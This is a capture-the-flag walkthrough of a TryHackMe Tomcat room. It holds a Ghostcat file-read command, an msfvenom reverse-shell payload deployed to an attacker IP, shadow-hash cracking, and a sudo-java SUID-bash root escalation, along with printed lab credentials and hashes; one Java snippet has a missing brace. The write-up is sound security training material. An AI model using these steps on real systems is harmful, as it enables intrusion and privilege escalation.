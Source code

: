 # 72 - VulnNet dotjar (Ghostcat exploit, Java app exploitation)

Room Link --> [https://tryhackme.com/room/vulnnetdotjar](https://tryhackme.com/room/vulnnetdotjar)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -sV 10.10.23.33

PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 9.0.30
```
{% endcode %}

Navigating to port 8080

<figure><img src=".gitbook/assets/image (469).png" alt=""><figcaption></figcaption></figure>

None of the default credentials worked for the Manager Login panel.

### Ghostcat Exploit <a href="#ghostcat-exploit" id="ghostcat-exploit"></a>

A quick google search for exploits for `apache tomcat version 9.0.30` and we saw it is vulnerable to the \`[https://github.com/00theway/Ghostcat-CNVD-2020-10487](https://github.com/00theway/Ghostcat-CNVD-2020-10487)\`

We run the script against port 8009

```bash
python3 ajpShooter.py http://10.10.143.34 8009 /WEB-INF/web.xml read
```

We got the credentials:

`webdev : Hgj3LA$02D$Fa@21`&#x20;

We can login on port 8080 now.

<figure><img src=".gitbook/assets/image (470).png" alt=""><figcaption></figcaption></figure>

#### Generating jsp .war reverse shell file with MSFVENOM

Now we have credentials to Apache we can upload a Java based reverse shell. Let’s create one using msfvenom:

{% code overflow="wrap" %}
```bash
dking@dking ~/Downloads$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.18.88.214 LPORT=1234 -f war -o pencer-shell.war
Payload size: 1090 bytes
Final size of war file: 1090 bytes
Saved as: pencer-shell.war
```
{% endcode %}

We use this [repo](https://gist.github.com/pete911/6111816) to upload it.

```bash
dking@dking ~/Downloads$ curl -u webdev -T reverse.war 'http://10.10.123.106:8080/manager/text/deploy?path=/'
Enter host password for user 'webdev':
FAIL - Application already exists at path [/]

# i keep getting that error, so i just tried some random dir ie; "im"
dking@dking ~/Downloads$ curl -u webdev -T reverse.war 'http://10.10.123.106:8080/manager/text/deploy?path=/war/'
Enter host password for user 'webdev':
OK - Deployed application at context path [/war/]
```

After uploading via command line, visit the URL in browser: `http://``10.10.123.106:8080/war`

And i got shell.

<figure><img src=".gitbook/assets/image (471).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

Just like other VulnNet rooms, there is a /backup dir in the /var dir containing a readable `shadow-backup-alt.gz` file. Send it to kali and read it.

And we get a shadow file backup

```bash
dking@dking ~/Downloads$ cat shadow-backup-alt                                                                 
root:$6$FphZT5C5$cH1.ZcqBlBpjzn2k.w8uJ8sDgZw6Bj1NIhSL63pDLdZ9i3k41ofdrs2kfOBW7cxdlMexHZKxtUwfmzX/UgQZg.:18643:0:99999:7:::
daemon:*:18642:0:99999:7:::
bin:*:18642:0:99999:7:::
sys:*:18642:0:99999:7:::
sync:*:18642:0:99999:7:::
games:*:18642:0:99999:7:::
man:*:18642:0:99999:7:::
lp:*:18642:0:99999:7:::
mail:*:18642:0:99999:7:::
news:*:18642:0:99999:7:::
uucp:*:18642:0:99999:7:::
proxy:*:18642:0:99999:7:::
www-data:*:18642:0:99999:7:::
backup:*:18642:0:99999:7:::
list:*:18642:0:99999:7:::
irc:*:18642:0:99999:7:::
gnats:*:18642:0:99999:7:::
nobody:*:18642:0:99999:7:::
systemd-network:*:18642:0:99999:7:::
systemd-resolve:*:18642:0:99999:7:::
syslog:*:18642:0:99999:7:::
messagebus:*:18642:0:99999:7:::
_apt:*:18642:0:99999:7:::
uuidd:*:18642:0:99999:7:::
lightdm:*:18642:0:99999:7:::
whoopsie:*:18642:0:99999:7:::
kernoops:*:18642:0:99999:7:::
pulse:*:18642:0:99999:7:::
avahi:*:18642:0:99999:7:::
hplip:*:18642:0:99999:7:::
jdk-admin:$6$PQQxGZw5$fSSXp2EcFX0RNNOcu6uakkFjKDDWGw1H35uvQzaH44.I/5cwM0KsRpwIp8OcsOeQcmXJeJAk7SnwY6wV8A0z/1:18643:0:99999:7:::
web:$6$hmf.N2Bt$FoZq69tjRMp0CIjaVgjpCiw496PbRAxLt32KOdLOxMV3N3uMSV0cSr1W2gyU4wqG/dyE6jdwLuv8APdqT8f94/:18643:0:99999:7:::

```

Using john to crack the shadow hashes.

```bash
john shadow-backup-alt --wordlist=/usr/share/wordlists/rockyou.txt

# we cracked "jdk-admin"
794613852        (jdk-admin)     
```

We are able to `su jdk-admin` .

<figure><img src=".gitbook/assets/image (472).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Root

`sudo -l` .

<figure><img src=".gitbook/assets/image (473).png" alt=""><figcaption></figcaption></figure>

Running sudo -l we see that the user jdk-admin can run any jar file as the root user.

#### 1. Creating and Executing Jar file to read root flag.txt

[Create and execute java files](https://www.tecmint.com/create-and-execute-jar-file-in-linux/)

Create `Exploit.java` file, which reads the **root.txt** from the root directory.

```java
import java.io.File;
import java.io.FileNotFoundException;
import java.util.Scanner;

public class Exploit {
  public static void main(String[] args) {
    try {
      File myObj = new File("/root/root.txt");
      Scanner myReader = new Scanner(myObj);
      while (myReader.hasNextLine()) {
        String data = myReader.nextLine();
        System.out.println(data);
      }
      myReader.close();
    } catch (FileNotFoundException e) {
      System.out.println("An error occurred.");
      e.printStackTrace();
    }
  }
}
```

Executing Jar file, but it gives an error due to the absence of **manifest attribute**.

```bash
jdk-admin@vulnnet-dotjar:~/Downloads$ javac -d . Exploit.java
jdk-admin@vulnnet-dotjar:~/Downloads$ ls
Exploit.class  Exploit.java
jdk-admin@vulnnet-dotjar:~/Downloads$ jar cvf exploit.jar Exploit.class
added manifest
adding: Exploit.class(in = 865) (out= 563)(deflated 34%)
jdk-admin@vulnnet-dotjar:~/Downloads$ ls
Exploit.class  exploit.jar  Exploit.java
jdk-admin@vulnnet-dotjar:~/Downloads$ sudo java -jar exploit.jar
Password: 
no main manifest attribute, in exploit.jar
```

Adding **manifest attribute** and then executing the exploit:

```bash
jdk-admin@vulnnet-dotjar:~/Downloads$ echo Main-Class: Exploit > MANIFEST.MF
jdk-admin@vulnnet-dotjar:~/Downloads$ jar cvmf MANIFEST.MF exploit.jar Exploit.class
added manifest
adding: Exploit.class(in = 865) (out= 563)(deflated 34%)
jdk-admin@vulnnet-dotjar:~/Downloads$ sudo java -jar exploit.jar
THM{464c29e3ffae05c2e67e6f0c5064759c}
jdk-admin@vulnnet-dotjar:~/Downloads$ 
```

#### 2. Getting root shell using java

```java
jdk-admin@vulnnet-dotjar:/dev/shm$ cat <<EOF >>root.java 
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.io.IOException;

public class root {
    public static void main(String[] args) {
        String command = "chmod +s /bin/bash";
        try {
            Process process = Runtime.getRuntime().exec(command);
            BufferedReader reader = new BufferedReader(
                new InputStreamReader(process.getInputStream()));
            String line;
            while ((line = reader.readLine()) != null) {
                System.out.println(line);
            reader.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
EOF
```

Now we need to compile it:

```
jdk-admin@vulnnet-dotjar:/dev/shm$ javac root.java
jdk-admin@vulnnet-dotjar:/dev/shm$ jar cfe root.jar root root.class
```

Then we can run our code to change bash permissions:

```
jdk-admin@vulnnet-dotjar:/dev/shm$ sudo -u root /usr/bin/java -jar root.jar
```

Finally we run bash and escalate to root to get the last flag:

```
jdk-admin@vulnnet-dotjar:/dev/shm$ bash -p
bash-4.4# cat /root/root.txt
```

Done!

